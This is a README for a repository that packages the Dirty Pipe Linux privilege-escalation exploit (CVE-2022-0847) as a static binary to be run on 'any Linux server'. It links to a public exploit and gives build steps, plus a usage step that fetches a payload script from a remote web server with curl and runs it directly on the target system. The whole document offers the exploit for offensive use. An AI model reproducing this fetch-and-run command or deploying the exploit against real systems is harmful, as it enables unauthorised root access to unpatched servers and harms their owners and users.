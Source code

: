 # dirtypipe (CVE-2022-0847)

## References: 
- [ArsTechnica article](https://arstechnica.com/information-technology/2022/03/linux-has-been-bitten-by-its-most-high-severity-vulnerability-in-years/)
- [Max Kellermann's article and PoC](https://dirtypipe.cm4all.com/)
- [Public exploit](https://haxx.in/files/dirtypipez.c)

## Objective

Build a static exploit that can be run on any Linux server

## How to build

```bash
./build.sh
```

## How to use

Once uploaded on the target system:

```bash
source payload.sh
```

If uploaded on a webserver:

```bash
source <(curl -s https://webserver/payload.sh)
```

## `dirtypipez.c`

The source on this repo is a bit modified (log message) as the `payload.sh` takes care of removing the `/tmp/sh` file.
